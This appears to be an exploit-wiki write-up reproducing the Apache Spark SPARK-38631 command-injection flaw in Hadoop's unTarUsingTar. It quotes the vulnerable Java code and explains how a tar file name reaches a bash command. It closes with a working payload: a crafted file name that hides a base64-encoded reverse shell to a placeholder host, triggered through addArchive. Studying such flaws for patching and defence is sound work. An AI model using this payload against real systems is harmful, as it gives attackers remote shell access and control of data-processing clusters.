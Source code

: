 # Apache Spark unTarUsingTar command injection vulnerability SPARK-38631

## Vulnerability Description

Apache Spark is a distributed open source processing system for big data workloads. 

## Vulnerability Impact

Apache Spark 3.1.2, 3.2.1, 3.3.0

## Vulnerability reappears

We check out the official fix patch

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649056170245-0002d819-b071-4ae4-b542-a5b949a68a2f.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649056263083-dd43291e-4350-4e7b-9d5f-898989fc9da7.png)

The official fix is ​​that the compressed package for .tar suffix calls the newly added unTarUsing Java function to handle it. We download the vulnerable version and see the vulnerability location.

```php
hadoop-common-2.7.4.jar!/org/apache/hadoop/fs/FileUtil.class
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649056439530-2fa3df48-184b-4eac-ac13-01bf51fd9490.png)

You can see that the vulnerability mainly occurs in Linux's decompression of files

```php
public static void unTar(File inFile, File untarDir) throws IOException {
        if (!untarDir.mkdirs() && !untarDir.isDirectory()) {
            throw new IOException("Mkdirs failed to create " + untarDir);
        } else {
            boolean gzipped = inFile.toString().endsWith("gz");
            if (Shell.WINDOWS) {
                unTarUsingJava(inFile, untarDir, gzipped);
            } else {
                unTarUsingTar(inFile, untarDir, gzipped);
            }

        }
    }
```

Here we control the file name of the compressed tar file and can inject commands.

```php
private static void unTarUsingTar(File inFile, File untarDir, boolean gzipped) throws IOException {
        StringBuffer untarCommand = new StringBuffer();
        if (gzipped) {
            untarCommand.append(" gzip -dc '");
            untarCommand.append(makeShellPath(inFile));
            untarCommand.append("' | (");
        }

        untarCommand.append("cd '");
        untarCommand.append(makeShellPath(untarDir));
        untarCommand.append("' ; ");
        untarCommand.append("tar -xf ");
        if (gzipped) {
            untarCommand.append(" -)");
        } else {
            untarCommand.append(makeShellPath(inFile));
        }

        String[] shellCmd = new String[]{"bash", "-c", untarCommand.toString()};
        ShellCommandExecutor shexec = new ShellCommandExecutor(shellCmd);
        shexec.execute();
        int exitcode = shexec.getExitCode();
        if (exitcode != 0) {
            throw new IOException("Error untarring file " + inFile + ". Tar process exited with exit code " + exitcode);
        }
    }
```

Create a Tar file, and then use addArchive to perform decompression and inject malicious commands.

```php
touch '1\|{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}\|1.tar'
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649060584363-166e77a0-eafc-4398-a438-b84267b9b61a.png)